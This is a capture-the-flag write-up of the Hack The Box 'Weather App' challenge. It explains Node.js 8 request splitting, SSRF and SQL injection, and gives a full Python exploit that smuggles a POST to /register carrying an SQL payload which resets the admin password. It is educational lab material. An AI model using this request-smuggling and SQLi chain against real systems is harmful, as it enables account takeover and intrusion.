

# [Weather App](https://app.hackthebox.com/challenges/Weather%20App)

## Vulnerabilities

request splitting vulnerability in nodejs 8

## CHALLENGE DESCRIPTION

A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I'm hallucinating with the memories of my past life, it's a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I've been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that's operating this website and set me free! 🧙‍♀️

## Analysis

read source code:

- Nodejs, express framework: [good express framework tutorial](https://developer.mozilla.org/en-US/docs/Learn/Server-side/Express_Nodejs/Introduction)
- Sqlitedb

Symmary:

- if we can log in with admin account, we can get the flag. The admin account is initialized with a random password.
- register function has sqli vulnerability but requires client address is 127.0.0.1 otherwise 401
- `/api/weather` has ssrf vulnerability

**Detected SQLi:**
While reading the source code I found a strange line, the register query is not using prepare function like below SQL function:



However, the client's ip address needs to be 127.0.0.1 to be allowed to use the registration function, tried fake with `X-Forwarded-For` and `X-Custom-IP-Authorization`, both failed.

**Detected ssrf in `/api/weather`:**


The idea is to use the ssrf vulnerability at the `/api/weather` endpoint to the `register` endpoint to bypass 127.0.0.1. But the `/api/weather` endpoint only makes get requests, so it doesn't work.

## Request splitting

At the nodejs version 8, there is a vulnerability called request-splitting.

This vulnerability allows the hacker to append another HTTP request after the base one.

Example:

```url
http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private')
```

in nodejs, it see this:

```url
http.get('http://127.0.0.1:8000/?param=xĠHTTP/1.1čĊHost:{Ġ}127.0.0.1:8000čĊčĊGETĠ/private')
```

but before this request is put in the wire, everything is encoded with latin1. the problem here is that `\u{010D}` is become to `\u{0D}`, which is the `\r` character, a special charracter in HTTP.

```js
> Buffer.from('http://example.com/\u{010D}\u{010A}/test', 'latin1').toString()
'http://example.com/\r\n/test'
```

|||
|--|--|
|%20|space|
|%0D|\r|
|%0A|\n|

## Solutions

python code to send `request splitting` request:

```python
import requests

s = '\u0120' #space
r = '\u010D' #\r
n = '\u010A' #\n
rn = r + n

host = 'http://165.22.115.189:31711'

i_username = 'admin'
i_password = "test') ON CONFLICT(username) DO UPDATE SET password = 'test';--"
i_password = i_password.replace(' ', '%20').replace('\'', '%27') #(1)
len_body = 19 + len(i_username) + len(i_password)

fake_endpoint = "127.0.0.1/" + s + 'HTTP/1.1' + rn #(2)
fake_endpoint += rn
fake_endpoint += 'POST' + s + '/register' + s + 'HTTP/1.1' + rn
fake_endpoint += 'Host:' + s + '127.0.0.1' + rn
fake_endpoint += 'Content-Type:' + s + 'application/x-www-form-urlencoded' + rn
fake_endpoint += 'Content-Length:' + s + str(len_body) + rn
fake_endpoint += rn
fake_endpoint += 'username=' + i_username + '&password=' + i_password + rn
fake_endpoint += rn
fake_endpoint += 'GET' + s

resp = requests.post(host + '/api/weather', json={"endpoint":fake_endpoint,"city":"Hanoi","country":"VN"})
```

note:

- (1): must replace space to `%20` or `\u0120`, replace `'` to `%27` or `\u0127`
- (2): must have `/` after 127.0.0.1

## References

<https://twitter.com/YShahinzadeh/status/1039396394195451904/photo/1>
<https://hackerone.com/reports/409943>
<https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/>

writeup: <https://infosec.itsmeuday.com/blog/htb_weather_app>

learn:

- <https://developer.mozilla.org/en-US/docs/Learn/Server-side/Express_Nodejs/Introduction>
